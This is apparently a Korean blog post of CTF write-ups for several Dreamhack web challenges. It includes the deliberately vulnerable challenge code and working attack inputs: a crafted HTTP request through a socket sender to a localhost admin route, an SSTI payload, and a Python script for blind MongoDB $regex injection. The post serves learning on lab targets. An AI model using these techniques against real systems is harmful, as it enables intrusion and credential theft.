

##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다

-----

webhacking.kr 서버가 다운되어 드림핵 워게임을 풀다가 복구되는대로 풀겠읍니다!

# > dreamhack.io: devtools-source


## writeup

디자이너의 포트폴리오 같은 형식의 웹 페이지 소스와 개발자 도구의 소스를 이용하라는 힌트가 전부이다.


하라는대로 그저 소스탭에서 모든 메뉴에다가 플래그 시작값을 서치했는데 찾았다..! 띠용!

<br><br><br>

-----

# > dreamhack.io: proxy-1



## writeup

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for
import socket

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/socket', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('socket.html')
    elif request.method == 'POST':
        host = request.form.get('host')
        port = request.form.get('port', type=int)
        data = request.form.get('data')

        retData = ""
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.settimeout(3)
                s.connect((host, port))
                s.sendall(data.encode())
                while True:
                    tmpData = s.recv(1024)
                    retData += tmpData.decode()
                    if not tmpData: break
            
        except Exception as e:
            return render_template('socket_result.html', data=e)
        
        return render_template('socket_result.html', data=retData)


@app.route('/admin', methods=['POST'])
def admin():
    if request.remote_addr != '127.0.0.1':
        return 'Only localhost'

    if request.headers.get('User-Agent') != 'Admin Browser':
        return 'Only Admin Browser'

    if request.headers.get('DreamhackUser') != 'admin':
        return 'Only Admin'

    if request.cookies.get('admin') != 'true':
        return 'Admin Cookie'

    if request.form.get('userid') != 'admin':
        return 'Admin id'

    return FLAG

app.run(host='0.0.0.0', port=8000)
```


Raw Socket Sender라는 건 원래 패킷 전달 시에 추가되었던 프로토콜 별 헤더없이 통신하는 소켓이라고 한다. 헤더 정보들을 프로그래머가 직접 제어하기 때문에 원하는 계층에서 접근이 가능하며, 어떤 헤더를 추가해도 상관이 없다. 전부 개발자의 재량인 것이다.

문제에서는 총 5가지의 조건을 만족하여 "/admin"으로 패킷을 보내면 플래그를 준다고 한다.

1. `접속 IP`의 정보가 루프백일 것
2. `User-Agent` 정보가 "Admin Browser" 일 것
3. `DreamhackUser`라는 정보가 "admin" 일 것
4. 쿠키에서 `admin`키의 값이 "true" 일 것
5. `userid` 인자의 값이  "admin"일 것

일단 어떻게 패킷이 날라가는지 보자.

```http
POST /socket HTTP/1.1
Host: host2.dreamhack.games:16778
Content-Length: 46
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://host2.dreamhack.games:16778
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://host2.dreamhack.games:16778/socket
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

host=123.123.123.123&port=80&data=testtesttest
```

아마도 저 host 부분와 port가 `s.connect((host, port))` 에 의해서 목적지 주소와 포트가 설정되고, `s.sendall(data.encode())` 에 의해서 data들이 패킷 바디에 들어갈 것 같다. 그럼 이제 하나 하나 페이로드 작성 시 필요한 것들을 해결해나가보자.

### Q1. host와 port는 무슨 값으로 할 것인가?

일단 문제에서 주어진 접속 정보를 넣으면 "[Errno -2] Name does not resolve" 가 발생한다. 또한 remote_addr과 관련있나 싶어 host에 '127.0.0.1'과 HTTP 포트 '80'을 넣었으나 "[Errno 111] Connection refused" 가 발생한다. 도대체 무엇을 넣어야 하는가 찾다가 코드 아래 `app.run(host='0.0.0.0', port=8000)` 부분을 보게 되었다. 이래서 코드를 꼼꼼히 읽어야 한다니까...

그리하여 host에는  '127.0.0.1', port에는 '8000'을 넣으니 "timed out" 이 발생했다. 테스트 적으로 위에 POST 방식의 패킷에서 `/socket` 부분을 `/admin`으로 보내니 


음, 벌써 host, port에 어떤 값을 넣어야 할지와 첫번째 조건이였던 remote_addr도 뚫어낼 수 있었다.

### Q2. 패킷의 body정보는 어떻게 보낼 것인가?

```http
POST /admin HTTP/1.1
Host: host2.dreamhack.games:16778
Content-Length: 46
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://host2.dreamhack.games:16778
Content-Type: application/x-www-form-urlencoded
User-Agent: Admin Browser
Referer: http://host2.dreamhack.games:16778/socket
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
DreamhackUser: admin
Cookie: admin=true;

userid=admin
```

음 일단 생각나는대로 한번에 적용해서 보내봤는데 "time out"이 발생했다. 하나하나 넣어보면서 어디서 막히는지 찾아봐야 할 것 같다.

```
User-Agent: Admin Browser
```

여기까지 넣었을 때는 "Only Admin" 이 뜨는 것을 보니 여기까지는 문제 없다.

```http
DreamhackUser: admin
```

이 친구 넣자마자 "time out"이 발생했다. Connection 밑에 넣었었는데 이거보다 위에 넣으니 해결됬다.

```
Cookie: admin=true
```

이 아이는 어느 위치에 넣어도 "time out"을 발생시킨다. 뭐지? 또한 'true' 가 아닌 값을 넣어주면 다시 "Admin Cookie"가 발생한다. 내가 모르는 설정해야하는 정보가 있나보다.

앞서 긁어온 패킷들의 바디에서 불필요한 부분이 있나 싶어서 꼭 써야하는 내용들만 포함시켜보고 전송해보았다. 최종적으로 아래 페이로드가 4단계였던 "Admin Cookie"를 통과하고 마지막인 "Admin id"이 발생한다. 그리고 수없이 테스트를 해보면서 엔터키나 공백 등 정말 사소해보이는 차이도 아예 결과값이 달라져 버리기도 한다.특히 Connection 정보 이전의 헤더값들 사이에 공백이 존재하면 중간에 인식이 끊기는 듯한 느낌이 들었고, Connection 이후에 입력하는 정보들은 전달이 안되는 것 같기도 하다.

```http
POST /admin HTTP/1.1
Content-Length: 146
User-Agent: Admin Browser
DreamhackUser: admin
Cookie: admin=true;
Connection: close

userid=admin
```

그리고 burp suite로 날라가는 패킷의 정보를 잡아다가 Content-Length가 의미하는 바를 찾아보았는데 HTTP body의 길이를 의미한다. 그래서 그것이 잘못되었나 싶어 길이를 12로 수정을 했는데 그래도 안된다.

와 드디어 됬다... ㅠㅠㅠㅠㅠㅠㅠㅠㅠㅠㅠㅠㅠㅠㅠㅠㅠ


계속 붙잡고 추가하고 삭제하기를 반복하다가 `Content-XXX` 정보가 중요하다는 것을 깨달았다. 대충 앞에서 HTTP body의 정보를 의미한다는 것을 이해했을 때 앞서 내가 보냈던 페이로드에서 Content-type에 대한 명시가 없었다는 사실을 인지한 것이다.

그래서 다음과 같이 전송하였다. host는 127.0.0.1, port 8000,
```HTTP
POST /admin HTTP/1.1
Content-Length: 12
Content-Type: application/x-www-form-urlencoded
User-Agent: Admin Browser
DreamhackUser: admin
Cookie: admin=true;
Connection: close

userid=admin
```

<br><br><br>

-----

# > dreamhack.io: php-1


## writeup

LFI... 개념을 배워두어서 다행이다.

```php
<h2>View</h2>
<pre><?php
    $file = $_GET['file']?$_GET['file']:'';
    if(preg_match('/flag|:/i', $file)){
        exit('Permission denied');
    }
    echo file_get_contents($file);
?>
</pre>
```

그냥 다 읽어봐버릴 수 있는데 flag만 못읽어오는 상황이니 이를 어쩌면 좋을까?


뭐든 읽어낼 수 있는건 참 좋지만 의미있는 것을 읽지 못한다는게 참 아쉽다. 또한 php wrapper를 사용하여 문제를 풀고 싶은데 `file`의 인자에서 `:` 기호도 필터링되버린다. 그래서 php wrapper를 쓸 때 `:` 기호 없이 사용할 수 있는지 "php wrapper 우회" 검색했더니 바로 라업이 보여서 창을 닫아버렸다. 풀 수 있다는 거니까 생각해낼 수 있겠지?

문제에 이상한게 없는지 찾다가 보통 view 페이지로 가면 `/view.php?file=/etc/passwd`로 전달하는게 일반적이지 않나? 싶었다. 물론 index.php와 list.php를 읽다보면 설계가 틀린건 아니였다. 다만 어색한 느낌이 든다. 노래 30분정도 부르고 오면 생각나지 않을까?

와 근데 생각해보니까 내가 고민한 흔적에서 놓친게 하나 있었다. `file`의 인자에서만 필터링이 걸린다는 것이다. `page`인자도 결국은 파일을 풀러오니까? 여기에 그냥? php wrapper를 써버리면? 어떻게 되지? 하는 생각이 들었고

```php
<?php
	include $_GET['page']?$_GET['page'].'.php':'main.php';
?>
```

`index.php` 내용을 본 뒤 확신이 들어버렸다.


webhacking.kr에서 풀었던 페이로드에서 경로만 바꾸어 전달했더니 css때문인지 가려져서 base64 인코딩 문자열의 끄트머리가 보인다.

```php
<?php
	$flag = 'DH{bb9db1f303cacf0f3c91e0abca1221ff}';
?>
can you see $flag?
```

복호화하여 얻어버렸다. 아이 행복해 ㅎㅎㅎㅎㅎㅎㅎㅎ 기본에 충실하면 된다.

<br><br><br>

-----

# > dreamhack.io: csrf-2


## writeup

좀 더 진화한 녀석인 듯하다. 주요 함수만 살펴보자

### check_csrf()
```python
def check_csrf(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```
csrf-1에 존재했던 것처럼 localhost가 전달된 인자 정보로 접속해주는 역할이고, 이외에 바뀐 것은 없는 듯다.

### index()
```python
@app.route("/")
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not an admin"}')
```
이번에는 session 검증을 통한 로그인 상태를 확인하는 것을 보니 로그인 창이 있나보다.


### vuln()
```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param
```

### flag()
```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param", "")
        session_id = os.urandom(16).hex()
        session_storage[session_id] = 'admin'
        if not check_csrf(param, {"name":"sessionid", "value": session_id}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```
필터링은 기존과 동일허나 신기하게도 여기서 세션값에 "admin"을 넣어주고 있다. 뭐죠?


### login()
```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(8).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'
```
여기가 로그인을 하는 곳이고 여기서 세션 값 생성과 동시에 쿠키값으로 세션 아이디값을 저장함으로써 사용자가 확인이 가능하다.

### change_password()
```python
users = {
    'guest': 'guest',
    'admin': FLAG
}

@app.route("/change_password")
def change_password():
    pw = request.args.get("pw", "")
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')

    users[username] = pw
    return 'Done'

app.run(host="0.0.0.0", port=8000)
```
비밀번호를 변경하는 곳이 생겼다. 아마도 이 녀석을 `vuln()`의 파라미터로 사용하여 admin pw를 바꿔야할 듯하다.

근데 어째 DVWA에서 익혔던 CSRF랑 완전 똑같은 로직이다...  
바로 `vuln()`으로 넘어가 아래를 전달하고 admin계정으로 로그인했다.
```

```


경험이 역시 중요하다. `flag()`함수에서 세션 정보를 "admin"으로 바꾸는 순간부터 눈치챘다.

<br><br><br>

-----

# > dreamhack.io: simple-ssti

## writeup


```python
#!/usr/bin/python3
from flask import Flask, request, render_template, render_template_string, make_response, redirect, url_for
import socket

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

app.secret_key = FLAG


@app.route('/')
def index():
    return render_template('index.html')

@app.errorhandler(404)
def Error404(e):
    template = '''
    <div class="center">
        <h1>Page Not Found.</h1>
        <h3>%s</h3>
    </div>
''' % (request.path)
    return render_template_string(template), 404

app.run(host='0.0.0.0', port=8000)
```

SSTI는 Server-Side Templete Injection의 약자로 템플릿 엔진을 이용하여 웹 어플리케이션을 구동할 때, 사용자의 입력이 적절하게 필터링 되지 않아 템플릿 구문을 삽입 할 수 있을 때 발생하는 취약점이라고 한다.

처음보는 개념을 익히기 위한 구글링에서 공격 예문도 확인하여 그대로 실행해보았는데


단지 URL의 끝에 `{{conig}}` 만 넣었을 뿐인데 설정값들이 전부 출력되었다. 문제는 풀었지만 왜 풀렸는지를 알아야 하니 조금 정리하기로 했다.

### 서버사이드 탬플릿 엔진
서버에서 DB나 API에서 가져온 데이터와 사전에 설정해놓은 템플릿을 합쳐서 HTML을 만든 후 클라이언트에게 전송하는 방식

웹 페이지에서 특정 데이터를 제외하고 기본적인 틀은 변하지 않는 것이 대부분이다. 그리고 이러한 상황에서 중복적인 코드를 만들어내는 것보다 재사용이라는 개념이 도입된다면 굉장히 효율적일 것이다. 그리고 이를 가능하게 하는 것이 탬플릿 엔진의 사용이다. 기본적인 틀이 존재하는 상황에서 받는 데이터에 따라 유동적으로 특정 부분만 바뀌어 생성한다.

하지만 사용자가 입력한 데이터를 서버단에서 렌더링하는 과정에서 별도의 검증이 존재하지 않고, 이 때문에 사용자가 입력한 코드가 실행될 수 있다. 만약 어떤 엔진인지 특정할 수 있게되면 해당 엔진에서 사용하는 코드를 넣으면 서버 상에 존재하는 정보들을 얻어낼 수 있게 된다.


위와 같은 문법을 넣어보고 엔진을 특정화할 수 있다고 하는데, 대부분은 별다른 설정이 없을 경우 `jinja2` 엔진을 사용한다고 한다. 그리고 이 엔진의 문법 중에서 `{{...}}` 안에 내용을 넣게되면 해당 내용을 동적으로 보여준다. 이 문제에서와 같이 Flask에서 구동되는 경우에 app.py 정보가 `config` 클래스에 저장되게 되는데, 내가 공격에 사용했던 것처럼 전송 데이터에 `{{config}}`로 코드를 넣게되면 엔진에서 실행하게 되어 정보가 다 출력되는 것이다.

끝이 없다. 끝이 없어!!!


<br><br><br>

---

# > dreamhack.io: mango

##writeup


```javascript
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');
```


아 이거 풀다가 bob 11기 합격 명단을 봐버렸는데 내가 있다. 오늘 저녁은 치킨!
{: .text-green-000}

문제를 풀기위해 mongoDB에 대해 조금 알아보면 기존에 알던 mySQL과는 달리 **비관계형 데이터베이스**이다. SQL문을 사용하던 때와 달리 새로운 문법으로 key-value의 개념이 적용되어 있으며, JSON 형태의 쿼리를 사용한다. 기존 SQL 문과 비교하여 살펴보자.

### mySQL

```sql
SELECT * FROM userinfo WHERE uid = "admin" and upw = "admin";
```

### mongoDB

```sql
db.userinfo.find({"uid":"admin","upw":"admin"})
```

<br>

이 외에도 이전에 알던 문법과는 전혀 딴판이기에 드림핵 강의를 참고하여 문제를 풀었다. 그 중에서 사용된 취약점 부분과 문법을 짚고 넘어가자.

### 1. 데이터 타입의 미검증

예시를 보면 바로 이해가 가능하다.

```
login?uid=1234
data: 1234
type: string

login?uid[1234]=1234
data: [ '1234':'1234' ]
type: object
```

데이터를 전달할 때 기존에는 SQL에서는 `uid=*` 형태로 전달하여 전부 문자열처럼 취급되었으나,  mongoDB에서는 전달하는 형태에 따라 데이터 형식이 `string` 또는 `object`로 변경될 수 있다. 물론 해당 문제에서 query의 타입이 문자열로 지정되어 있다면 발생하지 않는다.

<br>

### 2. `$regex`의 존재

위 취약점과 함께 연계할 수 있는 표현이다. 정규식을 의미하여 Blind Injection에서 유용하게 사용된다. 가령 `db.user.find({upw: {$regex: "^a"}})` 이런 쿼리를 사용하게 될 경우에 `upw`라는 key의 해당하는 value 중에서 "a"로 시작하는 결과를 가져오게 되는 것이다.


위 두가지와 와일드카드를 이용해서 익스코드를 완성했다.


```python
import requests, string
HOST = 'http://host1.dreamhack.games:16090'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'
flag = ''
for i in range(32):
	for ch in ALPHANUMERIC:
		response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
		print(response.text)
		if response.text == SUCCESS:
			flag += ch
			break
	print(f'FLAG: DH{{{flag}}}')
```


`ad.in`을 통해 `admin`의 필터링을 우회하였고, 플래그 값이 `DH`로 시작하는 것을 알기 때문에 `D.`을 통해 `dh` 필터링을 우회했다. 정규식을 통해 데이터를 한조각씩 전부 찾아냄으로써 플래그를 획득했다.


